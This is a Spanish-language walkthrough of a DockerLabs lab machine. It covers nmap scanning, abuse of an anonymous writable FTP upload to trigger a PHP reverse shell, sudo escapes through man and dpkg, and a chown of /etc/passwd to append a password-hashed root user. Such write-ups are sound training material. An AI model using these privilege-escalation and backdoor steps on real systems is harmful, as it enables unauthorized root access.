 https://dockerlabs.es/
https://mega.nz/file/oSMDFTwS#RuwOzB6pGIQN87FpC4vJ4K8trWJajo55RilJ8EOBsVA

## Desplegar el docker

![[Pasted image 20250522142410.png]]
![[Pasted image 20250522133634.png]]
TTL = 64 --> Linux/Unix

Una vez que sabemos que es una maquina Linux/Unix procedemos a ver que puertos tiene expuestos.
Para esto utilizaremos la herramienta `nmap`

`nmap -p- -sS -sC -sV --min-rate=5000 -n -vvv -Pn 172.17.0.2`

![[Pasted image 20250522142424.png]]
Podemos lanzar `nmap` para que nos reporte más información sobre los puertos 21 y 80

`nmap -sCV -p21,80 172.17.0.2`

![[Pasted image 20250522142647.png]]
Podemos ver más información, como que el usuario `anonymous` está habilitado en el ftp.
Y que tiene permisos de escritura en el directorio /upload

Vamos a echar un vistazo a la pagina web

![[Pasted image 20250522142926.png]]

Incluso podemos ver el directorio /upload 
![[Pasted image 20250522142956.png]]

Sabiendo esto podemos subir una reverse shell al directorio.

![[Pasted image 20250522144639.png]]
![[Pasted image 20250522144652.png]]

Nos ponemos en escucha por el puerto 443 y damos click al `.php`
![[Pasted image 20250522144807.png]]

Ahora como en las maquinas anteriores tenemos que ver la escala de privilegios.
![[Pasted image 20250522144835.png]]

Podemos ver que el usuario **Pingu** puede ejecutar `man`
Vamos a cambiar a su usuario sabiendo esto.

Por lo que sea en esta maquina he tenido que hacer el trato de tty, ya que no me dejaba ejecutar `man` correctamente.

Para ello he realizado lo siguiente:
`script /dev/null -c bash `
ctrl+z
`stty raw -echo; fg`
`reset xterm`
`stty rows 62 columns 248`
`export TERM=xterm`
`export SHELL=bash`

Una vez lo hayamos realizado podemos ejecutar correctamente `man` y al haberlo ejecutado con el usuario **Pingu** podemos abrir una shell desde `man`
![[Pasted image 20250522150247.png]]

![[Pasted image 20250522150258.png]]

Vamos a ver que puede ejectuar **Pingu**
![[Pasted image 20250522150450.png]]

Vemos el usuario **gladys**, vamos a realizar practicamente lo mismo que hemos hecho con `man` pero esta vez con `dpkg`

`sudo -u gladys dpkg -l`

![[Pasted image 20250522150625.png]]

Y volvemos a listar sudo
![[Pasted image 20250522150708.png]]

Esta vez podemos ejecutar `chown` como `root`

Sabiendo esto nos podemos atribuir /etc/passwd y asi cambiar el usuario root para que no necesite contraseña, como ya hemos realizado en alguna maquina anterior.

![[Pasted image 20250522150848.png]]

Por lo visto no hay ningun editor de texto para poder hacer la edición más facil.
![[Pasted image 20250522150946.png]]

Lo más facil será añadir a archivo un nuevo usuario con los privilegios `root`

Vamos a generar un hash con `openssl` y añadirlo al archivo con su nuevo usuario.

`openssl passwd crakeado`
`echo 'superroot:$1$z6.eu/NS$Hcp7ckVMMAZckR1HJY5Uj/:0:0::/home/superroot:/bin/bash' >> /etc/passwd`

Y ya estamos dentro
![[Pasted image 20250522151430.png]]
